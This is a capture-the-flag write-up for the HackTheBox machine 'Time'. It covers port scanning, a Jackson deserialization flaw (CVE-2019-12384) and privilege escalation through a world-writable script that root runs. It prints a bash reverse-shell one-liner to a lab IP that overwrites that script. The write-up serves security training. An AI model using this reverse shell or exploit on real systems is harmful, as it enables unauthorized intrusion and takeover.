 ```yaml
---
title: Time
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-12 11:33:00 +0200
categories: [HackTheBox, Linux]
tags: [Linux, Java, Deserialization, CVE-2019-14439, A08:2021-Software And Data Integrity Failures, Weak Permissions, CVE-2019-12814, A06:2021-Vulnerable And Outdated Components, CVE-2019-12384]
math: true
mermaid: true
image:
  src: /assets/images/7271b973dbee497292da39db670b796c7cf0520dc410ff947f5781123d206307.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Time is a very straightforward box, which just needs to be enumerated very precisely. It starts with Java CVE and ends with **

# ENUMERATION
## NMAP
Let's start with NMAP scan:
```	
Nmap scan report for 10.10.10.214
Host is up (0.034s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## GOBUSTER

Gobuster actually didn't found anything where i could connect to, without 403 redirection

## Website

Website is running a java script beautifier:

![picture 65](/assets/images/ef05392b8d075fa9fc3c3f4d31874b952569291d454b19bbcddf056ed2812f95.png)  

I've sent a request through Burp and found out something interesting.

# EXPLOITATION

As mentionend, i've sent an initial request through burp and continued in repeater. Data can be any non-numeric value and it will raise an exception
	
![picture 29](/assets/images/632f6ab2b5c1822f8a245002e1f97b008df0d187baed48b0f696b7f885867675.png)  

Now testing with different brackets
```
mode=2&data={123}
```

Results in exception. A `Java` Exception(!)
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```
Now there is a CVE for that: https://github.com/jas502n/CVE-2019-12384 including exploit which, if ran, would give us shell:

![picture 30](/assets/images/7e3f13981796ae3b3d2fe4e2a7960ae8e0ffb81a460c211952c708a47b408f55.png)  

# PRIVILEGE ESCALATION
## Exploiting System Timer
Root executes writable script owned by pericles. 

```
pericles@time:/tmp$ ls -la /usr/bin/timer_backup.sh
-rwxrw-rw- 1 pericles pericles 88 Jan 25 15:05 /usr/bin/timer_backup.sh
```

To exploit that, simply echo reverse shell to `/usr/bin/timer_backup.sh`, set a listener and wait.

```
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.22/4444 0>&1'" > /usr/bin/timer_backup.sh
```
	
![picture 31](/assets/images/d4c6ed33be3925472288d6acbde054cc1b82a07bb0b2e605a10c5b242c7ca598.png)  
